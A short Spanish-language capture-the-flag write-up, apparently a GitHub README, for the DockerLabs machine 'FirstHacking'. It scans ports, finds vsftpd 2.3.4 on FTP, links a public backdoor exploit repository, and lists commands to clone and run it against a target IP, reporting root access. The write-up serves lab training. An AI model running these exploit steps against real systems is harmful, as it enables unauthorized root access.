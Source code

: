 # Writeup-Maquina-FirstHacking
<h1>Plataforma: <b>DOCKERLABS</b></h1>
<p>Haremos un PING para verificar la conexion</p>

<h2><b></b>Escaneo de Puertos</b></h2>
<img src="https://github.com/user-attachments/assets/3aebe9eb-2386-42ea-b777-5f915d359538">
<p>Veremos que unicamente tenemos el puerto 21 abierto</p>

<h2><b>Busqueda de Vulnerabilidad</b></h2>
<p>Como vimos al lanzar el escaneo de puertos tenemos la version del servicio en este caso es:</p>
<p>vsftpd 2.3.4</p>
<br>
<p>Por lo que buscaremos alguna vulnerabilidad para esta version</p>
<br>
<p>Buscando nos encontramos con este <a href="https://github.com/Hellsender01/vsftpd_2.3.4_Exploit">Exploit</a></p>

<h2><b>Utilizacion del Exploit</b></h2>
<p>Leeremos el exploit y haremos exactamente lo que nos dice</p>
<br>
<p>1. Instalamos la herramienta que nos pide: sudo python3 -m pip install pwntools</p>
<br>
<p>2. Clonamos el repositorio: git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git</p>
<br>
<p>3. Abriremos la carpeta que contiene el exploit: cd vsftpd_2.3.4_Exploit/</p>
<br>
<p>4. Modificamos su configuracion con el comando: chmod +x exploit.py</p>
<br>
<p>5. Lo ejecutamos: python3 exploit.py Target_IP</p>

<h2><b>Resultado</b></h2>
<p>Ya tenemos acceso a la maquina victima y somos usuario ROOT</p>
<img src="https://github.com/user-attachments/assets/d56c02f9-547c-47a0-9928-9e2d2285a1c5">
